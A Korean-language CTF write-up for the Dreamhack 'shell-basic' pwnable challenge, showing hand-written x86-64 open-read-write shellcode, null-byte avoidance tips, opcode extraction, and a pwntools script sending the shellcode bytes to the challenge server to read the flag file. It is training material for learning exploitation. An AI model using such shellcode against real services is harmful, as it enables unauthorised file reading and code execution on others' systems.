 ```yaml
---
title: "[pwn]shell-basic"
category: CTF
tags: [pwnable]
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 파일 경로가 길어졌다는 것을 제외하면 같은 방식이다.
## 환경조사  
  amd64 LE  
## Assembly 작성
  ~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
  ~~~
  먼저 stack에 file location을 string의 형태로 넣었다. 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
  그 이후에는 SYSCALL 함수의 parameter에 따라 변수를 넣어준다. **SYS_OPEN(const char \*filename,int flags,umode_t mode)** 에 flags=0, mode=null 을 넣어준다. **SYS_READ(unsigned int fd,char \*buf,size_t count)**, **SYS_WRITE(unsigned int fd,char \*buf,size_t count)** 함수의 parameter에 맞게 넣어주면 된다.  
  
  shell code에는 \x00이 포함되면 안되므로 **mov rax,0x0** 이 아닌 **xor rax,rax**를 해주어야 한다. **mov rax,0x1**도 마찬가지로 0x1이 64bit size에 맞춰 0x01000000이 된다. 따라서 xor과 add를 통해 입력한다.
  {: .notice--danger}
## OPcode 추출
  **gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일 후 **objdump -d ./orw** 명령어로 opcode를 추출한다.  
  <img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
  이때 마지막 syscall(\x0f\x05)까지만 추출하면 된다.  
## script 작성
  ~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)
	p.recvuntil(b'shellcode:')
    exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
  ~~~
  script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
  <img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154060282-9a3a8081-505a-4e1f-b5fe-d719bde16195.png">  
  이때 flag이후에 다른 값이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
